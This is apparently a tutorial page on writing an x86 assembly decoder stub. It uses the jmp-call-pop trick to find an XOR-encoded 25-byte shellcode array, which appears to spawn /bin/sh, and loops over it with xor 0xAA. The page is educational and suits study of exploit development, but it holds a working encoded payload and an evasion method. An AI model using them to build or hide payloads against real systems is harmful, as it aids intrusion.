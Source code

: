 ```asm
global _start

section .text
_start:

        jmp short call_decoder

decoder:



call_decoder:

        call decoder

        Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```

Now we can get the address of `Shellcode` by simply doing a `pop` on 
any of the registers. Let's do it on `esi`.

```asm
global _start

section .text
_start:

        jmp short call_decoder

decoder:
        pop esi


call_decoder:

        call decoder

        Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```

Now, if you go ahead and look at the length of the shellcode. The 
length has been given 25. Which means we need basically start from
the `Shellcode` and `xor` 25 times. So this is exactly what we are
going to do right now. I will use `loop` instruction which means
I need to load up the `ecx` register with 25. So

```asm
global _start

section .text
_start:

        jmp short call_decoder

decoder:
        pop esi
        xor ecx, ecx
        mov cl, 25

decode:
        xor byte [esi], 0xAA
        inc esi
		loop decode
```